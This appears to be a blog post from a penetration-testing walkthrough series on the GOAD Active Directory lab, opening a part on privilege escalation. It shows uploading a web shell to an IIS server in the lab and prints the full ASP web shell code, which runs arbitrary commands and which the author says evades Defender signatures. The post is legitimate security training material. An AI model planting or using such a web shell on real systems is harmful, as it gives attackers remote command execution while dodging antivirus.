 ```yaml
---
layout: post
title:  "GOAD - part 8 - Privilege escalation"
category : AD
tags :  AD, Lab, AMSI, krbrelay, printspoofer
---
```


In the previous post ([Goad pwning part7]({% link _posts/2022-09-12-GOADv2-pwning-part7.md %})) we tried some attacks with MSSQL on the domain.
This time we will get a web shell on IIS and try some privilege escalation techniques.

## IIS - webshell

- There is a simple asp.net application on http://192.168.56.22/, this application only give us a simple file upload functionality.

![privesc_iss_upload.png](/assets/blog/GOAD/privesc_iss_upload.png)

- From there we can upload a basic webshell in asp : webshell.asp (at the time of writing, this avoid defender signature)

```asp
<%
Function getResult(theParam)
    Dim objSh, objResult
    Set objSh = CreateObject("WScript.Shell")
    Set objResult = objSh.exec(theParam)
    getResult = objResult.StdOut.ReadAll
end Function
%>
<HTML>
    <BODY>
        Enter command:
            <FORM action="" method="POST">
                <input type="text" name="param" size=45 value="<%= myValue %>">
                <input type="submit" value="Run">
            </FORM>
            <p>
        Result :
        <% 
        myValue = request("param")
        thisDir = getResult("cmd /c" & myValue)
        Response.Write(thisDir)
        %>
        </p>
        <br>
    </BODY>
</HTML>
```
